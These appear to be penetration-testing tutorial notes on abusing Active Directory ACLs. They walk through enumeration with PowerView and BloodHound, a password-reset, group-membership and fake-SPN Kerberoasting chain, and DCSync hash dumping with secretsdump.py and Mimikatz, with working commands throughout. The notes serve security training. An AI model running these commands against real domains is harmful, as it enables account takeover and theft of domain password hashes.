

# ACL Abuse

In this section will cover:
- Access Control List (ACL) Abuse Primer
- ACL Enumeration
- ACL Abuse Tactics
- DCSync


## Access Control List (ACL) Abuse Primer

For security reasons, not all users and computers in an AD environment can access all objects and files. These types of permissions are controlled through Access Control Lists (ACLs). Posing a serious threat to the security posture of the domain, a slight misconfiguration to an ACL can leak permissions to other objects that do not need it.

**Access Control List (ACL) Overview**

In their simplest form, ACLs are lists that define a) who has access to which asset/resource and b) the level of access they are provisioned. The settings themselves in an ACL are called Access Control Entries (ACEs). Each ACE maps back to a user, group, or process (also known as security principals) and defines the rights granted to that principal. Every object has an ACL, but can have multiple ACEs because multiple security principals can access objects in AD. ACLs can also be used for auditing access within AD.

There are two types of ACLs:
- **Discretionary Access Control List (DACL)** - defines which security principals are granted or denied access to an object. DACLs are made up of ACEs that either allow or deny access. When someone attempts to access an object, the system will check the DACL for the level of access that is permitted. If a DACL does not exist for an object, all who attempt to access the object are granted full rights. If a DACL exists, but does not have any ACE entries specifying specific security settings, the system will deny access to all users, groups, or processes attempting to access it.
- **System Access Control Lists (SACL)** - allow administrators to log access attempts made to secured objects.

**Access Control Entries (ACEs)**

As stated previously, Access Control Lists (ACLs) contain ACE entries that name a user or group and the level of access they have over a given securable object. There are three main types of ACEs that can be applied to all securable objects in AD:

| ACE                | Description                                                                                                    |
|---------------------|----------------------------------------------------------------------------------------------------------------|
| Access denied ACE   | Used within a DACL to show that a user or group is explicitly denied access to an object                       |
| Access allowed ACE  | Used within a DACL to show that a user or group is explicitly granted access to an object                      |
| System audit ACE    | Used within a SACL to generate audit logs when a user or group attempts to access an object. It records whether access was granted or not and what type of access occurred |

Each ACE is made up of the following four components:
- The security identifier (SID) of the user/group that has access to the object (or principal name graphically)
- A flag denoting the type of ACE (access denied, allowed, or system audit ACE)
- A set of flags that specify whether or not child containers/objects can inherit the given ACE entry from the primary or parent object
- An access mask which is a 32-bit value that defines the rights granted to an object

**Why are ACEs Important?**

Attackers utilize ACE entries to either further access or establish persistence. These can be great for us as penetration testers as many organizations are unaware of the ACEs applied to each object or the impact that these can have if applied incorrectly. They cannot be detected by vulnerability scanning tools, and often go unchecked for many years, especially in large and complex environments. During an assessment where the client has taken care of all of the "low hanging fruit" AD flaws/misconfigurations, ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise. Some example Active Directory object security permissions are as follows. These can be enumerated (and visualized) using a tool such as BloodHound, and are all abusable with PowerView, among other tools:
- ForceChangePassword abused with Set-DomainUserPassword
- Add Members abused with Add-DomainGroupMember
- GenericAll abused with Set-DomainUserPassword or Add-DomainGroupMember
- GenericWrite abused with Set-DomainObject
- WriteOwner abused with Set-DomainObjectOwner
- WriteDACL abused with Add-DomainObjectACL
- AllExtendedRights abused with Set-DomainUserPassword or Add-DomainGroupMember
- Addself abused with Add-DomainGroupMember



## ACL Enumeration

### Enumerating ACLs with PowerView

We can use PowerView to enumerate ACLs, but the task of digging through all of the results will be extremely time-consuming and likely inaccurate. For example, if we run the function Find-InterestingDomainAcl we will receive a massive amount of information back that we would need to dig through to make any sense of.
````powershell
# Using Find-InterestingDomainAcl
> Find-InterestingDomainAcl
````
If we try to dig through all of this data during a time-boxed assessment, we will likely never get through it all or find anything interesting before the assessment is over. Now, there is a way to use a tool such as PowerView more effectively -- by performing targeted enumeration starting with a user that we have control over.  Let's focus on the user `<user1>` has any interesting ACL rights that we could take advantage of. We first need to get the SID of our target user to search effectively.
````powershell
> Import-Module .\PowerView.ps1
> $sid = Convert-NameToSid <user1>

# Using Get-DomainObjectACL
> Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}

ObjectAceType          : 00299570-246d-11d0-a768-00aa006e0529

# Performing a Reverse Search & Mapping to a GUID Value
> $guid= "00299570-246d-11d0-a768-00aa006e0529"
> Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl

# Using the -ResolveGUIDs Flag
> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}

ObjectAceType          : User-Force-Change-Password

# Investigating the <Group> Group with Get-DomainGroup
> Get-DomainGroup -Identity "Help Desk Level 1" | select memberof
````
### Methodology

**Creating a List of Domain Users**
````powershell
> Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
````
We then read each line of the file using a foreach loop, and use the Get-Acl cmdlet to retrieve ACL information for each domain user by feeding each line of the ad_users.txt file to the Get-ADUser cmdlet. We then select just the Access property, which will give us information about access rights. Finally, we set the IdentityReference property to the user we are in control of (or looking to see what rights they have)

**See the accounts that user controls**
````powershell
> foreach($line in [System.IO.File]::ReadLines("C:\Users\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match '<domain>\\<user>'}}

Path                  : Microsoft.ActiveDirectory.Management.dll\ActiveDirectory:://RootDSE/CN=<user2>
ObjectType            : 00299570-246d-11d0-a768-00aa006e0529 (User-Force-Change-Password)
````
So, to recap, we started with the user `<user1>` and now have control over the user `<user2>` via the User-Force-Change-Password extended right. Let's use Powerview to hunt for where, if anywhere, control over the <user2> account could take us.
````powershell
> $sid2 = Convert-NameToSid <user2>
> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose

ObjectDN              : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=<domain>,DC=LOCAL
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
````
Now we can see that our user `<user2>` has **GenericWrite** privileges over the **Help Desk Level 1** group. This means, among other things, that we can add any user (or ourselves) to this group and inherit any rights that this group has applied to it. A search for rights conferred upon this group does not return anything interesting.
````powershell
# Investigating the Help Desk Level 1 Group with Get-DomainGroup
> Get-DomainGroup -Identity "Help Desk Level 1" | select memberof

memberof                                                                      
--------                                                                      
CN=Information Technology
````
This is a lot to digest! Let's recap where we're at:
- We have control over the user `<user1>` 
- We enumerated objects that the user `<user1>` has control over and found that we could force change the password of the user `<user2>`
- From here, we found that the `<user2>` user can add a member to the Help Desk Level 1 group using GenericWrite privileges
- The Help Desk Level 1 group is nested into the Information Technology group, which grants members of that group any rights provisioned to the Information Technology group

Now let's look around and see if members of Information Technology can do anything interesting.
````powershell
# Investigating the Information Technology Group
> $itgroupsid = Convert-NameToSid "Information Technology"
> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $itgroupsid} -Verbose

ObjectDN              : CN=<user3>
ActiveDirectoryRights : GenericAll
````
Get-DomainObjectACL shows us that members of the Information Technology group have GenericAll rights over the user `<user3>`, which means we could:
- Modify group membership
- Force change a password
- Perform a targeted Kerberoasting attack and attempt to crack the user's password if it is weak

Finally, let's see if the `<user3>` user has any type of interesting access that we may be able to leverage to get closer to our goal.
````powershell
> $user3id = Convert-NameToSid <user3>
> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $user3id} -Verbose

ObjectDN               : DC=<Domain>
ObjectAceType          : DS-Replication-Get-Changes-In-Filtered-Set
ObjectAceType          : DS-Replication-Get-Changes
````
The output above shows that our `<user3>` user has **DS-Replication-Get-Changes** and **DS-Replication-Get-Changes-In-Filtered-Set** rights over the domain object. This means that this user can be leveraged to perform a **DCSync** attack.


### Enumerating ACLs with Bloodhound

Let's take the data we gathered earlier with the SharpHound ingestor and upload it to BloodHound. Next, we can set the `<user1` user as our starting node, select the Node Info tab and scroll down to Outbound Control Rights. This option will show us objects we have control over directly, via group membership, and the number of objects that our user could lead to us controlling via ACL attack paths under Transitive Object Control. If we click on the 1 next to First Degree Object Control, we see the first set of rights that we enumerated, ForceChangePassword over the `<user2>` user.

If we right-click on the line between the two objects, a menu will pop up. If we select Help, we will be presented with help around abusing this ACE, including:
- More info on the specific right, tools, and commands that can be used to pull off this attack
- Operational Security (Opsec) considerations
- External references.

We just need to follow the trail inside the bloodhound, just like we did with powerview.

## ACL Abuse Tactics

### Abusing ACLs

To perform the attack chain, we have to do the following:
- Use the `<user1>` user to change the password for the `<user2>` user
- Authenticate as the `<user2>` user and leverage GenericWrite rights to add a user that we control to the Help Desk Level 1 group
- Take advantage of nested group membership in the Information Technology group and leverage GenericAll rights to take control of the `<user3>` user

#### Change User Password
````powershell
# Creating a PSCredential Object
> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user1>', $SecPassword)

# Creating a SecureString Object
> $user2Password = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Changing the User's Password
> Import-Module .\PowerView.ps1
> Set-DomainUserPassword -Identity <user2> -AccountPassword $user2Password -Credential $Cred -Verbose
````

#### ADD to Group
````powershell
# Creating a PSCredential Object with user2
> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
> $Cred2 = New-Object System.Management.Automation.PSCredential('<domain>\<user2>', $SecPassword)

# Verify Members
> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName

# ADD to Group
> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members '<user2>' -Credential $Cred2 -Verbose
````

#### Creating a Fake SPN & Kerberoasting
````powershell
# Creating a Fake SPN
> Set-DomainObject -Credential $Cred2 -Identity <user3> -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose

# Kerberoasting with Rubeus
> .\Rubeus.exe kerberoast /user:<user3> /nowrap
````
We could use the tool targetedKerberoast to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

## DCSync

**What is DCSync and How Does it Work?**

DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the DS-Replication-Get-Changes-All extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

### Performing DCSync

DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py.

**Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**
````bash
$ secretsdump.py -outputfile hashes -just-dc <domain>/<user3>@<IP_DC>
````
We can use the -just-dc-ntlm flag if we only want NTLM hashes or specify -just-dc-user <USERNAME> to only extract data for a specific user. 

**Performing the Attack with Mimikatz**
````powershell
# privilege::debug
# lsadump::dcsync /domain:<domain> /user:<domain>\<user3> or Administrator
````
Using Mimikatz, we must target a specific user. Here we will target the built-in administrator account. We could also target the krbtgt account and use this to create a Golden Ticket for persistence.
